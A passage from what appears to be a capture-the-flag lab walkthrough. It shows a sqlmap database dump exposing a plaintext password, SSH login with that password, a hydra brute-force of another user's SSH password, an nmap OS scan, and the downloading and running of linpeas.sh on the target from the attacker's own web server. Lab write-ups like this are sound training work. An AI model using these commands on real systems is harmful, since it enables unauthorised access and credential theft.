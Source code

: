I need the date inside that databse `website`
```
sqlmap -r request.txt -D website --dump
...
Database: website
Table: users
[1 entry]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
+----+-------------------+----------------+----------+
```

# Exploitation

<img width="1920" height="1004" alt="Screenshot_2025-10-04_01-37-41" src="https://github.com/user-attachments/assets/731b0fb1-9b09-44fa-a00a-6d77d260a6f6" />
Due to site login uselessness, I deduce that I might get access as `smokey` user in ssh of this server
```
ssh smokey@<ip>
```

I successfully get in as `smokey` now. After a while browsing, I found that inide `/home` folder, there is another user called `hazel`, which contains the user flag
<img width="476" height="134" alt="Screenshot_2025-10-04_01-41-38" src="https://github.com/user-attachments/assets/59b0d15a-2902-4017-857b-ba0c904b29d5" />

Well, I need the password for user `hazel` badly, so I use the tool known as `hydra` to brute-force the password of that user. 
```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt 10.201.111.18 -I ssh
...
[22][ssh] host: 10.201.111.18   login: hazel   password: hazel
...
```

Wait a second, the password is exactly the same as the name, it is so easy to get access
<img width="329" height="45" alt="Screenshot_2025-10-04_01-45-55" src="https://github.com/user-attachments/assets/157e7e6f-4b96-45b3-9122-c1e2b6cf16b2" />
<img width="421" height="38" alt="Screenshot_2025-10-04_01-45-34" src="https://github.com/user-attachments/assets/9db16fdd-6fe6-4efd-92a1-68a5761eced1" />

# Privilege Escalation
Now I need to know which operating system does this server use by running nmap scan but with stealth mode
```
nmap -sT -O 10.201.111.18
```

And the operating system is linux, which is what I already expected. Moving to the `/tmp` folder for running linpeas by those following steps
1. On the main host, go to directory containing linpeas
Then setting up a python server
```
python3 -m http.server 80
```
2. On the target, using `wget` to get linpeas
```
wget http://<IPofMainHost>:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
